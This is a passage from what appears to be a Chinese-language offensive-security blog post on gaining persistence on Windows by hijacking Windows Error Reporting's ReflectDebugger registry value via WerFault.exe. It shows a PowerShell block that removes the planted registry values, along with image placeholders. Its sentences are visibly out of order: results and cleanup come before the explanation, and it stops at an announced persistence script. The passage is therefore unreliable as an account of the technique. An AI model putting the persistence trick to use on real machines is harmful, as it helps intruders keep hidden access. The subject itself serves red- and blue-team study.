{width="80%"}

另外请注意，劫持 Windows 错误报告需要管理员权限，而用于持久化的部分我们使用的是低级别权限：

```powershell
Remove-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\Windows Error 
Reporting\Hangs" -Name "ReflectDebugger"
Remove-ItemProperty -Path 
"HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "meow"
```

{width="80%"}

{width="80%"}

{width="80%"}

如果你决定「把一切恢复原状」，就会注意到这一点。

所以，如你所见，一切运行完美！=..=

下一篇本应是第 17 部分，但它会和关于令牌窃取的第三部分一起发布。

{width="80%"}

我花了 10 分钟都没搞明白为什么它在我这里不工作 :)

我不知道野外是否有任何 APT 使用过这种战术和技巧，但我希望这篇文章能让蓝队成员了解这个有趣的技巧（尤其是在开发软件时），并为红队成员的武器库增添一件武器。

如果我们运行命令 `WerFault.exe -pr <value>`，它就会读取 Hangs 项下的 `ReflectDebugger` 值。

那么技巧在哪里呢？

当然，我们可以用它来实现持久化。

以及持久化脚本：
